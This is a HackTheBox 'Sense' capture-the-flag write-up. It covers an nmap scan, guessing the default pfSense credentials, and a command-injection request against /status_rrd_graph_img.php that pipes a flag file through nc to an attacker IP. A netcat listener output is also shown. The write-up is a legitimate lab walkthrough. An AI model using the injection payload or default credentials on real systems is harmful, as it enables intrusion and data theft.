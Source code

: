 ```yaml
---
title: Sense writeup
date: 2022-07-04 17:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/sense/
image: # Thumbnail 
  src: Sense.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This box focuses on exploiting a `pfsense`, first through weak credentials and then via rce through the `/status_rrd_graph_img.php?` endpoint.
## Foothold and root
We start out by doing an nmap port scan:

```console
┌──(bitis㉿workstation)-[~/Coding/BitisG.github.io]
└─$ nmap -sC -sV 10.129.147.167
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-04 19:58 CEST
Nmap scan report for 10.129.147.167
Host is up (0.024s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.147.167/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds
```
When visiting the application we are greeted with the following:

![](welcome.png)

After doing a scan with feroxbuster we find 2 interesting files: `changelog.txt` and `system-users.txt`:

```console
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```
{: file="changelog.txt"}

```console
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```
{: file="system-users.txt"}

Based on this information we can login as rohit with the credentials `rohit:pfsense`. A lot of vulnerabilities are present in pfsense. if we search the pfsense version for cve, we find a vulnerability, where apparently when using a get request on an image if we pass the query database, with value queues, we can simply do commands, like: 
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+home;cd+rohit;cat+user.txt|nc+10.10.17.182+1337 HTTP/1.1

![](burp.png)

```console
──(bitis㉿workstation)-[~/htb/Machines/sense]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.147.167] 25006
8721327cc232073b40d27d9c17e7348b       
```
And likewise for the root flag. Rooted!